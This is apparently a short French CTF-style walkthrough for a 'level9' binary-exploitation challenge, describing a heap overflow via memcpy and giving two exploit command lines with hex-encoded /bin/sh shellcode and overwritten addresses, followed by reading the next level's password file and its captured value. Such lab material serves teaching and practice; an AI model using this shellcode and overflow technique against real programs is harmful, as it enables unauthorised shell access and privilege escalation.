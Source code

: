 gdb level9

info function

on apercois un call "new" qui alloue de la memoire et qui ensuite la copy avec memcpy donc on va essayer d'overflow

en cherchant la liste des functions appele on voit un STRCPY qui nous a deja servi dans les exo d'avant on va donc passer par lui pour lui faire copier ce qu'on veut a l'adresse du strcpy : 0xb7f34aa0

./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + 83 * "A" + "\x0c\xa0\x04\x08"')

cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728


./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')